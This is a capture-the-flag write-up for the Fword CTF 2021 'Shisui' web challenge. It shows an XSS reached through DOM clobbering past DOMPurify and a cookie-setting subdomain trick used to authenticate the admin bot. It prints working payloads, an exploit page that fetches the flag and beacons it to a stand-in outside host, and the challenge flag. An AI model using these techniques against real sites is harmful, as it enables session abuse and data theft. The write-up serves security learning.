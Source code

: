```yaml
---
title: Shisui - Fword CTF 2021
date: 2021-08-30
author: Yadhu Krishna M
author_url: https://twitter.com/YadhuKrishna_
categories:
 - Web Exploitation
tags:
 - FwordCTF
 - XSS
 - DOM Clobbering
---
```

 
**tl;dr**

+ XSS using DOM Clobbering 
+ `<a id="showInfos"></a><a id="SETTINGS" name=check data-timezone="aaa" data-location="eval(window.name)"><a id="SETTINGS" name="x">` 
+ Bypass CSRF protection to execute XSS and read flag.

<!--more-->

**No. Of Solves:** 5

**Challenge points:** 999

**Solved By:** [Az3z3l](https://twitter.com/Az3z3l), [Captain-Kay](https://twitter.com/captainkay11), [imp3ri0n](https://twitter.com/YadhuKrishna_), [1nt3rc3pt0r](https://twitter.com/_1nt3rc3pt0r_)

**Source Code:** [here](source-code.zip)

## Initial Analysis

We're given a web application that has a login and register page. Upon registering, the user is presented with a feedback page. 

![screenshot](1.png)

On inspecting the source code, one can see that the page uses latest version of DOMpurify and runs the below JavaScript code to display the comment.

```html=
<script>
	var url = new URL(document.location.href);
	var params = new URLSearchParams(url.search);
	var feedback=params.get("feedback");
	if (feedback){
		var clean = DOMPurify.sanitize(feedback,{FORBID_TAGS: ['style','form','input','meta']});		
		document.getElementById("out").innerHTML=clean;
	}
</script>
```


We are allowed to inject HTML but not JavaScript. We also have a `main.js` file with the following content. <br/>


```javascript=
window.SETTINGS = window.SETTINGS || [{
  dataset:{
    "timezone":"",
    "location":"Tunisia"
  },
  Title:"FwordFeedbacks",
  check: false	
}]
function looseJsonParse(obj){
  if(obj.length<35){  
	return eval("(" + obj + ")");
  }else{
    return {location:"Limit Length Exceeded"}
  }
}
function addInfos(){
	if(window.showInfos && SETTINGS.check  && SETTINGS[0].dataset.timezone.length>2){
        var infos=`{location:${SETTINGS[0].dataset.location}}`;
	var result=document.createElement("p");
	result.textContent=`Location: ${looseJsonParse(infos).location} Timezone: UTC+1` ;
	document.getElementById("out").appendChild(result);
	console.log(result);
	}
}
addInfos()

```

The initial lines of the above code along with the HTML Injection that we have, can cause DOM Clobbering attack. 

## Exploit

### Trigerring XSS

The `looseJsonParse` function can be used to trigger an XSS. However, it requires three conditions - `window.showInfos && SETTINGS.check  && SETTINGS[0].dataset.timezone.length>2`.

+ `window.showInfos` can be set by injecting `<a id="showInfos"></a>`.

+ The second condition can be bypassed by clobbering `window.SETTINGS`.

```html
<a id="SETTINGS" name=check><a id="SETTINGS" name="x">
```
![screenshot](2.png)

+ For the third condition, we require `SETTINGS[0].dataset.timezone.length>2`. This can be solved by setting data attribute to the HTML tag. (Read about dataset attribute [here](https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/dataset).)

```html
<a id="SETTINGS" name=check data-timezone="aaa"><a id="SETTINGS" name="x">
```

![screenshot](3.png)

Combining all the conditions, our payload becomes,

```html
<a id="showInfos"></a><a id="SETTINGS" name=check data-timezone="aaa" data-location="eval(window.name)"><a id="SETTINGS" name="x">
```

With the above payload, `window.name` will be executed by JavaScript. Now we can execute JavaScript by sending the admin to a page containing the below script. 

```javascript
window.open("http://host:5000/home?feedback=%3Ca+id%3D%22showInfos%22%3E%3C%2Fa%3E%3Ca+id%3D%22SETTINGS%22+name%3Dcheck+data-timezone%3D%22aaa%22+data-location%3D%22eval%28window.name%29%22%3E%3Ca+id%3D%22SETTINGS%22+name%3D%22x%22%3E&submit=Add+Feedback", "alert(1)")
```

Now, we have an authenticated XSS. But the admin bot does not authenticate on submitting a URL. 

### Delivering Exploit

Create a subdomain (say `challenge.example.org`) that has a CNAME record to `shisui.fword.tech` (challenge server). Then on the main domain, we set a cookie to authenticate the admin bot. 

The exploit script that runs on the main domain:

```html
<html>
<script>

    let ck = 'eyJj...OzGA'; // a valid session cookie

    document.cookie = `session=${ck};path=/;domain=challenge.example.org`; // Set cookie on subdomain
    let payload=`fetch("/flag").then(r=>r.text()).then(z=>navigator.sendBeacon("http://example.org", z))`, 
    url = "http://challenge.example.org/home?feedback=%3Ca+id%3D%22showInfos%22%3E%3C%2Fa%3E%3Ca+id%3D%22SETTINGS%22+name%3Dcheck+data-timezone%3D%22aaa%22+data-location%3D%22eval%28window.name%29%22%3E%3Ca+id%3D%22SETTINGS%22+name%3D%22x%22%3E&submit=Add+Feedback"; 
  
    window.open(url, name=payload); // Open the subdomain with exploit
</script>
</html>
```

## Flag

```
FwordCTF{UchiHa_ShiSui_Is_GoDLik3YoU}
```
